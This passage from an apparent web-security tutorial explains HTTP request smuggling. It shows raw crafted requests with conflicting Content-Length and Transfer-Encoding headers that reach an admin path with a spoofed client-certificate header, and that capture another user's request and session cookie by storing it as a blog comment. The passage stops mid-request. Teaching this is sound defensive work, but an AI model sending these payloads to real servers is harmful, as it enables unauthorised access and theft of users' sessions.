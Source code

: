```

```
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 64
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-SSL-CLIENT-CN: administrator
Foo: x
```

## Capturing other users' requests

Suppose an application uses the following request to submit a blog post comment, which will be stored and displayed on the blog:

```
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&comment=My+comment&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net
```

You can perform the following request smuggling attack, which smuggles the data storage request to the back-end server:

```
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 324

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```

When another user's request is processed by the back-end server, it will be appended to the smuggled request, with the result that the user's request gets stored, including the victim user's session cookie and any other sensitive data:

```
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO
